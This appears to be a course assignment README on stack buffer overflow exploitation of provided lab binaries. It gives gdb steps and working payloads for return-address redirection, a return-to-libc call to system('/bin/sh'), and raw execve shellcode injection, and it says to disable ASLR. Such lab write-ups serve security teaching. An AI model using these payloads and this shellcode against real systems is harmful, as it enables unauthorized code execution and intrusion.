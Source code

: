 # CNS Assignment 4

## Notes

- Disable ASLR using `echo 0 > /proc/sys/kernel/randomize_va_space`.
- Whenever using gdb, first enter `unset env LINES` and `unset env COLUMNS` to match gdb and shell environment variables.
- When executing, use complete path e.g. `/home/xyz/assignment4/executable` instead of `./executable`.
- All addresses are written in reverse order due to little endianess.
- Remove existing binaries using `make clean`.
- Compile all programs using `make`.

## Steps to reproduce

### Redirect execution to print 'access granted'

- Get address of instruction just after `jmp` statement and overflow the buffer to put it in `IsPasswordOkay`'s return address.

  ![Example disassembly from gdb](./screenshots/1.png)

- E.g. `/path/to/executable/hackthisprogram1_64.out $(python -c '__import__("sys").stdout.buffer.write(b"A"*12+b"B"*16+b"C"*8+b"\x24\x52\x55\x55\x55\x55\x00\x00")')`


### Return to LIBC attack

- Get address of `system` function from libc using `p system` in gdb.

  ![system call address](./screenshots/2_system.png)

- Get starting and ending address of all memory occupied by libc using `info proc map`.
- Get address of `/bin/sh` string from the libc address space using `find <starting addr>,<ending addr>,"/bin/sh"`.

  ![libc address space](./screenshots/2_libc.png)

- Overflow the buffer to replace return address with address of `system` function call and address of string `/bin/sh` as it's argument.
- E.g. `/path/to/executable/hackthisprogram1_32.out $(python -c '__import__("sys").stdout.buffer.write(b"\x41"*24+b"\x40\x98\xc4\xf7"+b"\x42"*4+b"\xaa\xaf\xdb\xf7")')`

### Shellcode injection

- Get shellcode using `make shellcode`, which produces 36 byte shellcode.
- Get starting address of `Password` buffer using `x Password` in gdb. This is where shellcode execution will start from.

  ![starting address of buffer](./screenshots/3.png)

- Overflow the buffer to replace return address with starting address of `Password` buffer.
- Additionally prepend the shellcode with `\x91`.
- E.g `/path/to/executable/hackthisprogram1_mod_64.out $(python -c '__import__("sys").stdout.buffer.write(b"\xeb\x08\x2f\x62\x69\x6e\x2f\x73\x68\xff\x31\xc0\x88\x05\xf7\xff\xff\xff\x48\x8d\x3d\xe9\xff\xff\xff\x50\x57\x48\x89\xe6\x31\xd2\xb0\x3b\x0f\x05"+b"\x41"*36+b"\x50\xd9\xff\xff\xff\x7f\x00\x00")')`

